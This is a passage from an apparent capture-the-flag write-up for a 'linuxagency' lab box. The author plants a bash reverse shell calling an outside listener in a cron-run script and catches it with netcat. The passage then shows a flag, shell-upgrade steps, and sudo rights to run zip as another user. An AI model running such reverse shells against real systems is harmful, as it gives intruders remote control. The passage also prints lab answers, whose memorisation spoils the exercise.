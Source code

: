 We have permission to execute this script **47.sh**. This script is overwritten and  executed after **30 seconds**. 
We can create a revershell ^^

```
viktor@linuxagency:~$ cat /opt/scripts/47.sh
#!/bin/bash
bash -i >& /dev/tcp/10.4.2.132/4242 0>&1
```
```
nc -lnvp 4242
Connection from 10.10.186.37:57456
bash: cannot set terminal process group (2375): Inappropriate ioctl for device
bash: no job control in this shell
dalia@linuxagency:~$ ls -la
ls -la
total 36
drwxr-x---  2 dalia dalia 4096 Jan 12  2021 .
drwxr-xr-x 45 root  root  4096 Jan 12  2021 ..
lrwxrwxrwx  1 dalia dalia    9 Jan 12  2021 .bash_history -> /dev/null
-rw-r--r--  1 dalia dalia  220 Jan 12  2021 .bash_logout
-rw-r--r--  1 dalia dalia 3771 Jan 12  2021 .bashrc
-rw-r--r--  1 dalia dalia 8980 Jan 12  2021 examples.desktop
-r--------  1 dalia dalia   40 Jan 12  2021 flag.txt
-rw-r--r--  1 dalia dalia  807 Jan 12  2021 .profile
dalia@linuxagency:~$ cat flag.txt
cat flag.txt
dalia{4a94a7a7bb4a819a63a33979926c77dc}
```

# Answer : dalia{4a94a7a7bb4a819a63a33979926c77dc}

# What is silvio's flag?

Now we need to upgrade our session to be able to work properly. For that, please follow the sequence : 
```
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
control+z to background
stty raw -echo
fg
export TERM=xterm
```

Now, let's check **sudo -l**
```
dalia@linuxagency:~$ sudo -l
sudo -l
Matching Defaults entries for dalia on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dalia may run the following commands on linuxagency:
    (silvio) NOPASSWD: /usr/bin/zip
```
